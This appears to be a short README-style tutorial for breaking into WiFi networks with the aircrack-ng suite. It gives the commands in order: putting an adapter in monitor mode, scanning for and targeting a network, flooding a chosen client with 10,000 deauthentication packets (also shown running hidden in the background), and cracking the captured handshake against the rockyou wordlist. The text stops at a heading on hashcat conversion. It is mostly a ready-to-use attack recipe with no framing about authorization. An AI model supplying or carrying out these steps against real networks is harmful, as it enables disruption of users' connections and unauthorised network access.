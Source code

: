 ## Step1. 
- connect WiFi-Adapter
- use `iwconfig` and check it's connected or not.

## Step2.

### 1. Start monitor mode
```bash
airmon-ng start wlan0
```

### 2. Discover networks
```bash
airodump-ng wlan0
```

If you want to scan both 2.4 GHz and 5 GHz:

   ```bash
   airodump-ng --band ab wlan0mon
   ```

### 3. Target the right BSSID/CH
```bash
airodump-ng -c [channel] --bssid [target BSSID] -w capture wlan0
```

### 4. Force a client to reconnect (capture handshake)
```bash
aireplay-ng --deauth 10000 -a [router BSSID] -c [client MAC] wlan0
```
- 10000 is the number of deauth packets
- working : it's send packets like i want to disconnect form this wifi. and here mac address is client address

### If you want to do it in the background
```
 aireplay-ng --deauth 10000 -a [router BSSID] -c [client MAC] wlan0 &> /dev/null & 
```
- &> /dev/null use to hide the output
- Lat & for run multiple commands
- Use jobs to see commands running in the background.
- Use the kill command to stop a specific command.Like `kill %1` OR for all `killall aireplay-ng`


### 5. Crack the handshake
```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [BSSID] capture.cap
```

### 6. Crack the hashes.
---
#### 🔁 Step 1: Convert `.cap` to `.hc22000`
